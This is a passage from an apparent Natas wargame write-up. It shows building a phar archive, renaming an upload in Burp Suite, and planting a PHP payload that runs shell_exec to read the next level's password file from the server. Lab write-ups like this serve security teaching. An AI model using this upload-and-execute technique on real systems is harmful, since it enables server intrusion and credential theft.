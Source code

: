 Now let's execute this file with the command :

```console
$ php --define phar.readonly=0 phar_creation.php
```

Now, let's hope to **Burp Suite** and intercept the submission of the file to change it's name from our **PHPSESSID** to it's intented name to be used later.

![alt text](NatasScreenshots/34.2.png)

Now, let's create the **attack.php** file that contains our payload and will be called in the **passthru()** function.

```php
<?php echo shell_exec('cat /etc/natas_webpass/natas34'); ?>
```

and let's save it in the server by uploading it and keeping its name with **Burp Suite**.
